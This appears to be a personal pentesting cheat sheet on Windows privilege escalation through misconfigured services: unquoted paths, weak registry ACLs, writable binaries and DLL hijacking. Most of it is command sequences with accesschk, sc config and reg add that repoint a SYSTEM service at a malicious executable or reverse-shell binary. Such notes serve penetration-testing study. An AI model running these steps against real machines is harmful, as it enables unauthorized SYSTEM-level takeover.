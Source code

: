 # Service Exploits

If we have permissions to change the configuration of a service which runs in the context of SYSTEM we cna change the executable with a malicious one.

**Note:** We should have stop/start permissions, otherwise we would need to restart the machine.

## First steps

Run winPEAS to check services info:

```bash
.\winPEAS.exe quit servicesinfo
```

Use accesschk.exe to view our permissions on a service:

```bash
.\accesschk.exe /accepteula -uwcqv $user $service
```

Query the configuration of that service:

```bash
sc qc $service
#SERVICE_START_NAME : LocalSystem = SYSTEM
```

Query the current state of the service (stopped/running):

```bash
sc query $service
```

## Insecure service properties

We can change the default binpath of the service and the restart that service:

```bash
sc config $service binpath= "\"C:\XXXX\xxx.exe""
```

_____

## Unquoted service paths

Fist check if we find any unquoted service path and we have permissions to restart it.

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Now check for writable permissions on the paths:

```bash
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq C:\Program Files\
.
.
```

In the above example if we have write permissions under the "C:\" directory we can create a malicious file called Program.exe which establishes a reverse shell.

Now we only need to start the service again:

```bash
net start $service
```
_____

## Weak Registry Permissions

Windows registry stores entries for each service. If ACLs are misconfigured we can change services configuration.

First check the permissions with PS or accesschk:

```bash
powershell -exec bypass
Get-Acl HKLM:\System\CurrentControlSet\Services\$service | Format-List

.\accesschk.exe /accepteula -uvwqk HLKM\System\CurrentControlSet\Services\$service

#NT AUTHORITY\INTERACTIVE is a group with users that can log on to the machine locally.
```

Check if we can restart the service:

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Check the current values in the service registry entry:

```bash
reg query HLKM\System\CurrentControlSet\Services\$service
```

Change the executable of the service:

```bash
reg add HLKM\System\CurrentControlSet\Services\$service /v ImagePath /t REG_EXPAND_SZ /d C:\malicious.exe
```

Restart the service.
_____

## Insecure Service Executables

If we can change the original executable we can replace it directly.

Verify if we can modify the executable:

```bash
.\accesschk.exe /accepteula -quvw "C:\XX\XX.exe"
```

Check if we can restart the service and then replace it.

_____

## DLL Hijacking

Analyze the executable and find which dlls the program is trying to use. If we have writable permissions on that DLL we can replae it.

Another example is when a DLL is missions from the system and we have writable access to a directory within the PATH that Windows searches for DLLs.
